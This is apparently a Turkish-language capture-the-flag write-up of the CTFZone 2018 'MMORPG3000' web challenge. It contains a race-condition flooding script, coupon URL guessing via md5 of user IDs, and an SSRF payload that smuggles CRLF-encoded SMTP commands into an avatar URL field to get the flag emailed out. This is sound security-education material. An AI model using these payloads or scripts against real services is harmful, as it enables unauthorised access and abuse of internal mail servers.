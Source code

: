 # MMORPG3000 - CTFZone 2018

```
Here is a new generation mmorpg game, where you can beat your friends, just finished crowdfunding campaign and available on your PC starting today. It's a bit buggy, but you know...
I heard that developers of this game are really greedy.

http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/game/battle/competitors/
```

Verilen linke tikladigimizda assagidaki sayfa goruluyor.

![](1.png)
Sunulan bedava kuponu almak uzere donate sayfasini gittik.

![](2.png)

Verilen hediye kuponu girdikten sonra assagidaki resim ile karsilastik.

![](3.png)

Resimin __URL__'si şu şekilde;

``` 
http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/storage/img/coupon_aa2a77371374094fe9e0bc1de3f94ed9.png
```

__coupon_aa2a77371374094fe9e0bc1de3f94ed9__ urlin suffixi userid'in md5li hali oldugunu farkettik ve baska bir sayinin md5'ini alip denedik.


```
http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/storage/img/coupon_6a81681a7af700c6385d36577ebec359.png
```

![](4.png)

Kuponlar ile level atlattik fakat level 30'un otesine kuponlar ile gecilmiyormus. Bir umit __Race Condition__ vardir diye umit ettik ve denedik.

![](5.png)

```python
import asyncio
from aiohttp import ClientSession

async def fetch(url, session):
    async with session.get(url) as response:
        return await response.read()

async def run(n):
    sem = asyncio.Semaphore(n)
    async with ClientSession(cookies={"session": "eyJ1aWQiOjgyOX0.DjeKvA.qA-vNIHjDFSPyuDwArZyGMQD984"}) as session:
        await asyncio.gather(*(asyncio.ensure_future(fetch("http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one:80/donate/lvlup", session)) for _ in range(n)))

number = 10000
loop = asyncio.get_event_loop()

future = asyncio.ensure_future(run(number))
loop.run_until_complete(future)
```

Ve 30'uncu leveli geçtik

![](6.png)

30'uncu leveli gectigimizden dolayı __Avatar__ ekleme ozelligi aktif olmus oldu.

![](7.png)

Upload fonksiyonunda bir sey yoktu. Belki  __SSRF__'tir. __127.0.0.1__ ve __localhost__ engelliydi bu yüzden __SSRF__ olgundan emin olduk. Ama __0.0.0.0__ adresi calisiyordu. Port taramaya basladik.

![](8.png)

__25__'ci port yani __SMTP__ portu acikmis. __Host__'u manipüle ederek __SMTP__'yi kullanmayı denedik.

```smtp
Host: [0.0.0.0
helo 1v3m
mail from:<qaewjlfnwej@o3enzyme.com>
rcpt to:<root>
data
subject: give me flag

1v3m
.
]:25
```

Yeni satır ayıracı __SMTP__'de delimiter olduğu için her satırın sonuna yeni satırın __URL Encoded__ hali olan __%0A__'yı ekledik ve son payloadımızın son hali 

```url
[0.0.0.0%0ahelo 1v3m%0amail from:<qaewjlfnwej@o3enzyme.com>%0arcpt to:<root>%0adata%0asubject: give me flag%0a%0a1v3m%0a.%0a]:25
```

__Request__'imizin son hali şöyle oldu:

```http
POST /user/avatar HTTP/1.1
Host: web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar
Content-Type: multipart/form-data; boundary=---------------------------4693211868403427471435307016
Content-Length: 581
Cookie: session=eyJ1aWQiOjgyN30.DjaSgA.ylhJXkstamQ7GahYWvUypKpvDQc
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------4693211868403427471435307016
Content-Disposition: form-data; name="avatar"; filename=""
Content-Type: application/octet-stream


-----------------------------4693211868403427471435307016
Content-Disposition: form-data; name="url"

https://[0.0.0.0%0ahelo 1v3m%0amail from:<qaewjlfnwej@o3enzyme.com>%0arcpt to:<root>%0adata%0asubject: give me flag%0a%0a1v3m%0a.%0a]:25
-----------------------------4693211868403427471435307016
Content-Disposition: form-data; name="action"

save
-----------------------------4693211868403427471435307016--

```
Flag mailimize geldi

![](9.png)

ve flag

```
ctfzone{1640392aaf27597150c97e04a99a6f08}
```
